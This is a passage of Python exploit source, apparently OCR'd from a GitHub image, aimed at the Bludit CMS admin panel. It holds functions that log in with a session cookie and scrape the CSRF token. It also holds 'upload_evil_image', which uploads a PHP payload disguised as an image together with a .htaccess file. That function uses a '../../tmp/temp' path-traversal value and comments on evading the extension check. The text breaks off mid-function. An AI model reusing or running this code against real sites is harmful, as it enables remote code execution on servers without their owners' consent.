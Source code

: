 ```python
    cookies = {"BLUDIT-KEY":cookie}
    response = session.post(url + "/admin/",
                            data=data,
                            headers=headers,
                            cookies=cookies,
                            allow_redirects = False
               )

    print("cookie: " + cookie)
    return cookie

def get_csrf_token(url,cookie):
    """ Grab the CSRF token from an authed session """

    session = requests.Session()
    headers = {"Origin":url,
               "Accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
               "Upgrade-Insecure-Requests":"1",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate"}
    cookies = {"BLUDIT-KEY":cookie}
    response = session.get(url + "/admin/dashboard",
                           headers=headers,
                           cookies=cookies
               )
    csrf_token = response.text.split('var tokenCSRF = "')[1].split('"')[0]

    print("csrf_token: " + csrf_token)
    return csrf_token

def upload_evil_image(url, cookie, csrf_token, payload, override_uuid=False):
    """ Upload files required for to execute PHP from malicious image files. Payload and .htaccess """

    session = requests.Session()
    files= {"images[]": (payload,
                         open(payload, "rb"),
                         "multipart/form-data",
                         {"Content-Type": "image/png", "filename":payload}
                        )}
    if override_uuid:
        data = {"uuid": "../../tmp/temp",
                "tokenCSRF":csrf_token}
    else:
        # On the vuln app, this line occurs first:
        # Filesystem::mv($_FILES['images']['tmp_name'][$uuid], PATH_TMP.$filename);
        # Even though there is a file extension check, it won't really stop us
        # from uploading the .htaccess file.
        data = {"tokenCSRF":csrf_token}
    headers = {"Origin":url,
               "Accept":"*/*",
               "X-Requested-With":"XMLHttpRequest",
               "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0",
               "Connection":"close",
               "Referer":url + "/admin/new-content",
               "Accept-Language":"es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding":"gzip, deflate",
```